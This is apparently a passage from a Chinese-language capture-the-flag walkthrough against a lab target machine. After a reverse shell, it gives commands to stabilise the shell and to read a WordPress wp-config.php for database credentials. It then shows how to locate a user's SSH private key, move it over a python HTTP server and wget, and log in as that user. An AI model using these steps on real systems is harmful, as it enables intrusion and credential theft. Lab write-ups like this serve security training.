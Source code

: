 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

反弹成功，先切换到交互型的shell

```
`python3 -c 'import pty;pty.spawn("/bin/bash")'``export TERM=xterm``Ctrl+z快捷键``stty -a``stty raw -echo;fg``reset`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

切换完成，现在可以收集敏感信息了

```
`cd /var/www/html/blog/``cat wp-config.php`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

拿到数据库帐号密码，继续找

```
`cd /home``ls``cd freddie``ls -al``cd .ssh``ls -al`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

找到SSH登录密钥，我们可以读取，把他下载下来用freddie身份登录到靶机

1.靶机开启http服务

```
python3 -m http.server
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

2.靶机下载id_rsa文件

```
wget http://192.168.7.183:8000/id_rsa
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

下载完成就可以登录SSH了

```
ssh freddie@192.168.7.183 -i id_rsa
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

登录成功，先一下flag

```
`ls``cat user.txt`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  
